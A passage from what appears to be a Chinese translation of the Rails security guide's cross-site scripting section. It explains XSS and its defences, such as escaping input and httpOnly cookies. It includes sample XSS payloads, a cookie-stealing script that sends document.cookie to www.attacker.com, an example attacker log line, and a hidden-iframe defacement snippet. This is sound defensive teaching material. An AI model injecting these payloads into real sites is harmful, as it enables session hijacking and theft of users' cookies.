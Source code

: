 一个相对较新、不常见的切入点是横幅广告。[Trend Micro](http://blog.trendmicro.com/myspace-excite-and-blick-serve-up-malicious-banner-ads/) 的文章指出，2008 年早些时候在流行的网站（例如 MySpace 和 Excite）中发现了横幅广告中包含恶意代码。

#### HTML/JavaScript 注入 {#html-javascript-injection}

跨站脚本最常用的语言当然是使用最广泛的客户端脚本语言 JavaScript，而且经常掺有 HTML。转义用户的输入是最基本的要求。

下面是一段最直接的跨站脚本：

{:lang="html"}
~~~
<script>alert('Hello');</script>
~~~

上面的 JavaScript 只是显示一个提示框。下面的例子作用相同，但放在不太平常的地方：

{:lang="html"}
~~~
<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">
~~~

##### 盗取 cookie {#cookie-theft}

上面的例子没什么危害，下面来看一下攻击者如何盗取用户 cookie（因此也能劫持会话）。在 JavaScript 中，可以使用 `document.cookie` 读写 cookie。JavaScript 强制使用同源原则，即一个域中的脚本无法访问另一个域中的 cookie。`document.cookie` 属性中保存的 cookie 来自源服务器。不过，如果直接把代码放在 HTML 文档中（就跟跨站脚本一样），就可以读写这个属性。把下面的代码放在程序的任何地方，看一下页面中显示的 cookie 值：

{:lang="html"}
~~~
<script>document.write(document.cookie);</script>
~~~

对攻击者来说，这么做没什么用，因为用户看到了自己的 cookie。下面这个例子会从 http://www.attacker.com/ 加载一个图片和 cookie。当然，这个地址并不存在，因此浏览器什么也不会显示。但攻击者可以查看服务器的访问日志获取用户的 cookie。

{:lang="html"}
~~~
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
~~~

www.attacker.com 服务器上的日志文件中可能有这么一行记录：

~~~
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
~~~

在 cookie 中加上 [httpOnly](http://dev.rubyonrails.org/ticket/8895) 标签可以避免这种攻击，加上 httpOnly 后，JavaScript 就无法读取 `document.cookie` 属性的值。IE v6.SP1、Firefox v2.0.0.5 和 Opera 9.5 都支持只能使用 HTTP 请求访问的 cookie，Safari 还在考虑这个功能，暂时会忽略这个选项。但在其他浏览器，或者旧版本的浏览器（例如 WebTV 和 Mac 系统中的 IE 5.5）中无法加载页面。有一点要注意，使用 [Ajax 仍可读取 cookie](http://ha.ckers.org/blog/20070719/firefox-implements-httponly-and-is-vulnerable-to-xmlhttprequest/)。

##### 涂改 {#defacement}

攻击者可通过网页涂改做很多事情，例如，显示错误信息，或者引导用户到攻击者的网站，偷取登录密码或者其他敏感信息。最常见的涂改方法是使用 iframe 加载外部代码：

{:lang="html"}
~~~
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
~~~

